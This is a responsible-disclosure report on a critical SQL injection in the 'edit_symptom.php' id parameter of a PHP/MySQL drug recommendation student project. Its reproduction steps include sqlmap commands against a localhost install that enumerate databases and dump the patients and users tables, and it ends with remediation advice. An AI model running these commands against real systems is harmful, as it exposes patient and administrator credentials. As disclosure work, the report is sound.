**Title:** Critical SQL Injection in Drug Recommendation System Using Machine Learning, PHP, and MySQL Database Allows Database Compromise and Sensitive information disclosure to unauthorized user

**Severity:** Critical

**Disclosure Type:** Responsible Disclosure

**Researchers:** Karan Parelkar, Anubhav Verma and Parth Desai

**Executive Summary:**

The open source project from Sourcecodester (Drug Recommendation System Using Machine Learning, PHP, and MySQL Database) leads to critical SQL Injection vulnerability

The vulnerability exists because user-controlled input from the id parameter is concatenated directly into an SQL query without server-side sanitization or parameterized statements.

Successful exploitation allows an attacker to:

•	Execute arbitrary SQL queries 

•	Enumerate databases 

•	Extract sensitive user credentials 

•	Bypass authentication 

•	Obtain administrative account credentials


**Affected Product**

                       
**Product:** Drug Recommendation System Using Machine Learning, PHP, and MySQL Database	

**Source:** https://www.sourcecodester.com/php/18278/drug-recommender-web-app-student-project.html

**Version:** 1.0

**Language:** PHP

**Database:** MySQL

**Server:** Apache

**Operating System:** Windows (XAMPP Test Environment)	

**Vulnerability Classification**

CWE-89

Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)

OWASP Top 10

A03:2021 – Injection


**Vulnerability Details**

**Vulnerable Endpoint**

GET /

**Vulnerable Parameter**

Id

**Steps To reproduce:** 

In the below POC as we can see the user is not logged in 


1.	Go to /drug_recommender/edit_symptom.php endpoint the project allows direct access to this endpoint 





2.	The id parameter on this endpoint is vulnerable to SQL injection as we can see in the below code that no input sanitization is seen in the project.



3.	Manual Time based SQL injection works on id parameter as the response is delayed by 5 seconds
   


4.	Further, performing sql injection with sqlmap 

Command: ```python python sqlmap.py -u http://localhost/drug_recommender/Admin/edit_symptom.php?id=1 –dbs ```







We can see the databases are visible and compromised

5.	Dumping sensitive user credentials by following,

Command: ```python python sqlmap.py -u http://localhost/drug_recommender/Admin/edit_symptom.php?id=1 -D drug_recommender -T patients –dump ```





Command: ```python  python sqlmap.py -u http://localhost/drug_recommender/Admin/edit_symptom.php?id=1 -D drug_recommender -T users –dump ```





We can see admin and other user credentials.

**Impact**

Successful exploitation may allow an attacker to:

• Bypass authentication 

• Execute arbitrary SQL statements

• Enumerate databases 

• Dump sensitive application data 

• Obtain administrative credentials 

• Compromise confidentiality of stored information

CVSS v3.1 

Base Score 9.8 (Critical) 

CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

**Remediation** 

Developers should: 

• Replace dynamic SQL with prepared statements. 

• Use parameterized queries (PDO or MySQLi). 

• Validate and sanitize all user input. 

**References**

• Drug Recommendation System Using Machine Learning, PHP, and MySQL Database

 (code-projects.org) (https://code projects.org/product-inventory-system-in-php-with-source-code/)
 
• CWE-89 – SQL Injection 

• OWASP SQL Injection Prevention Cheat Sheet 

• OWASP Top 10 2021 – Injection

**Researchers Information**

Researcher - 1

Name: Karan Parelkar

Independent Security Researcher

Email: karan.parelkar2005@gmail.com

GitHub: https://github.com/KaranParelkar

LinkedIn: https://www.linkedin.com/in/karan-parelkar-6a370125b/

**Researcher - 2**

Name: Anubhav Verma

Independent Security Researcher

Email: avdzav10@gmail.com

GitHub: https://github.com/anubhavv106

LinkedIn: https://www.linkedin.com/in/anubhav-verma-7123a1232/

**Researcher - 3**

Name: Parth Desai

Independent Security Researcher

Email: ppdesai3@asu.edu

GitHub: https://github.com/ParthD31

LinkedIn: https://www.linkedin.com/in/parth-desai-801951224/


